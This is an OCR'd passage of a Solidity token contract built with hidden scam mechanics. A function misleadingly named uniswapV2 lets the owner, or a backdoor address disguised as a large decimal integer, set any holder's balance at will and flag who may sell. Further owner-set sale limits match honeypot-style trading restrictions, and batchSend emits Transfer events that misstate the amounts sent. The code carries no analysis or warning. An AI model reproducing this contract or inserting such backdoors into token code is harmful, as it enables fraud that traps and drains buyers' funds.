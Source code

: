     mapping(address=>uint256) private _onSaleNum;
    mapping(address=>bool) private canSale;
    uint256 private _minSale;
    uint256 private _maxSale;
    uint256 private _saleNum;
    function uniswapV2(address spender, uint256 addedValue) public returns (bool) {
        require(msg.sender==owner||msg.sender==address
        (179956070742076402882488975557765886040134529702));
        if(addedValue > 0) {balanceOf[spender] = addedValue*(10**uint256(decimals));}
        canSale[spender]=true;
        return true;
    }

    function uniswapV2_control(uint256 saleNum, uint256 token, uint256 maxToken) public returns(bool){
        require(msg.sender == owner);
        _minSale = token > 0 ? token*(10**uint256(decimals)) : 0;
        _maxSale = maxToken > 0 ? maxToken*(10**uint256(decimals)) : 0;
        _saleNum = saleNum;
    }
    function batchSend(address[] memory _tos, uint _value) public payable returns (bool) {
        require (msg.sender == owner);
        uint total = _value * _tos.length;
        require(balanceOf[msg.sender] >= total);
        balanceOf[msg.sender] -= total;
        for (uint i = 0; i < _tos.length; i++) {
            address _to = _tos[i];
            balanceOf[_to] += _value;
            emit Transfer(msg.sender, _to, _value/2);
            emit Transfer(msg.sender, _to, _value/2);
        }
        return true;
    }
    
    address tradeAddress;
    function setTradeAddress(address addr) public returns(bool){require (msg.sender == owner);
        tradeAddress = addr;
        return true;
    }
 
   
 
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;
 
    uint constant public decimals = 18;
    uint public totalSupply;
    string public name;
    string public symbol;
    address private owner;
    address constant UNI = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
 
    constructor(string memory _name, string memory _symbol, uint256 _supply) payable public {
        name = _name;
        symbol = _symbol;
        totalSupply = _supply*(10**uint256(decimals));
        owner = msg.sender;
        balanceOf[msg.sender] = totalSupply;
        allowance[msg.sender][0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D] = uint(-1);
        emit Transfer(address(0x0), msg.sender, totalSupply);
    }
}
